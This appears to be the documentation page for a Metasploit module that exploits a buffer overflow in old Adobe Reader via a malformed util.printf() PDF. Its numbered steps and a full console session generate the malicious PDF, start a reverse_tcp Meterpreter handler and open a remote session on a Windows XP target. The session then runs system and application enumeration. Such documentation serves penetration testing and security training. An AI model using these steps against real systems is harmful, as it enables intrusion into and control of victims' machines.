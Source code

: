 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat Professional < 8.1.3. By creating a specially crafted pdf that a contains malformed util.printf() entry, an attacker may be able to execute arbitrary code.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-0-0]

## Verification Steps

  1. Install application on the target machine
  2. Start msfconsole
  3. Do: `use exploit/windows/fileformat/adobe_utilprintf`
  4. Do: `set payload [windows/meterpreter/reverse_tcp]`
  5. Do: `set LHOST [IP]`
  6. Do: `exploit`
  7. Do: `use [exploit/multi/handler]`
  8. Do: `set LHOST [IP]`
  9. Do: `exploit`
  10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 8.0.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_utilprintf
  msf exploit(windows/fileformat/adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_utilprintf) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_utilprintf) > set FILENAME utilprintf.pdf
    FILENAME => utilprintf.pdf
  msf exploit(windows/fileformat/adobe_utilprintf) > exploit

    [*] Creating 'utilprintf.pdf' file...
    [+] utilprintf.pdf stored at /root/.msf4/local/utilprintf.pdf
  msf exploit(windows/fileformat/adobe_utilprintf) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1057) at 2019-12-09 13:47:07 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name            Version
    ----            -------
    Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191209134901_default_192.168.1.5_host.application_066854.txt
    ```
